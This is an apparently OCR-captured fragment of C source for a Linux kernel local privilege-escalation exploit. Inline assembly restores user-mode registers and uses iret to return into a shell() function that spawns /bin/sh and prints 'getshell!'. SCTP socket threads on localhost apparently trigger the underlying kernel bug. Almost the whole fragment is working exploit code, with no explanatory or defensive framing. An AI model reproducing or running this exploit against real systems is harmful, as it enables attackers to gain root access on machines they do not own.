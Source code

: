 ```c
		"pushl user_ss;"
		"pushl user_sp;"
		"pushl user_rflags;"
		"pushl user_cs;"
		"push $shell;"
		"iret;");
}

void shell(){
    system("/bin/sh");
    printf("getshell!");
}

void* client_func(void* arg)
{
	int socket_fd;
	struct sockaddr_in serverAddr;
	struct sctp_event_subscribe event_;
	struct sctp_sndrcvinfo sri;
	int s;

	char sendline[] = "butterfly";

	if ((socket_fd = socket(AF_INET, SOCK_SEQPACKET, IPPROTO_SCTP))==-1){
		perror("client socket");
		pthread_exit(0);
	}
	bzero(&serverAddr, sizeof(serverAddr));
	serverAddr.sin_family = AF_INET;
	serverAddr.sin_addr.s_addr = htonl(INADDR_ANY);
	serverAddr.sin_port = htons(SERVER_PORT);
	inet_pton(AF_INET, "127.0.0.1", &serverAddr.sin_addr);

	bzero(&event_, sizeof(event_));
	event_.sctp_data_io_event = 1;
	if(setsockopt(socket_fd,IPPROTO_SCTP,SCTP_EVENTS,&event_,sizeof(event_))==-1){
		perror("client setsockopt");
		goto client_out_;
	}

	sri.sinfo_ppid = 0;
	sri.sinfo_flags = 0;
	printf("sctp_sendmsg\n");
	if(sctp_sendmsg(socket_fd,sendline,sizeof(sendline),
		(struct sockaddr*)&serverAddr,sizeof(serverAddr),
		sri.sinfo_ppid,sri.sinfo_flags,sri.sinfo_stream,0,0)==-1){
		perror("client sctp_sendmsg");
		goto client_out_;
	}

client_out_:
  	//close(socket_fd);
	pthread_exit(0);
}

void* send_recv(void* arg)
{
	int server_sockfd, msg_flags;
	server_sockfd = *(int*)arg;
	socklen_t len = sizeof(struct sockaddr_in);
	size_t rd_sz;
	char readbuf[20]="0";
	struct sctp_sndrcvinfo sri;
```